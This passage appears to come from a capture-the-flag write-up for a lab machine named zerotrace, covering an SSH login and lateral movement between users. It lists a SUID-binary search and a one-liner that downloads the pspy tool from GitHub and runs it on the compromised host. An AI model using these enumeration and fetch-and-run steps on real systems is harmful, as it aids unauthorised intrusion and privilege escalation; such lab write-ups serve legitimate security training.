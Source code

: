 ```bash
ssh J4ckie0x17@192.168.1.187
```

![ssh J4ckie0x17](../../assets/images/zerotrace/ssh.png)

## Lateral movement from J4ckie0x17 to shelldredd

We found several interesting things with the user `J4ckie0x17`.

1. The binary `/usr/bin/chattr` has the SUID bit activated, which is unusual. This binary is used to modify special attributes in ext2/ext3/ext4 file systems.

```bash
find / -type f -perm -4000 2>/dev/null
```

![find suid](../../assets/images/zerotrace/suid.png)

2. We use `pspy` to monitor the active processes and found one executed by the user `shelldredd` with the `UID` 1003, which is very suspicious.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64s && chmod +x pspy64s && ./pspy64s
```
